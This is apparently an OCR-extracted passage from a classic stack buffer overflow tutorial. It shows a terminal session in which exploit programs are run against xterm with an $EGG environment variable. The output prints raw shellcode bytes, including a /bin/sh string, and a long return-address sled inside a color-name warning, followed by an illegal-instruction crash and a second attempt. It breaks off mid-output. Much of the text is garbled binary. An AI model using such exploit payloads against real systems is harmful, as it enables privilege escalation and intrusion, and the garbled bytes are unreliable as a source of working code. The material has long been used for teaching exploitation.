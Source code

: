 ��������������������������������������������������������������
^C
[aleph1]$ exit
[aleph1]$ ./exploit3 2148 100
Using address: 0xbffffd48
[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG
Warning: Color name "�^1�FF
                           �
                            �V

�1��@������/bin/sh���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H�








��H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H








���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���








H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H��








�H���H���H���H���H���H���H���H���H���H���H���H��
Warning: some arguments in previous message were lost
Illegal instruction
[aleph1]$ exit
.
.
.
[aleph1]$ ./exploit4 2148 600
Using address: 0xbffffb54
[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG
Warning: Color name "�^1�FF
                           �
                            �V
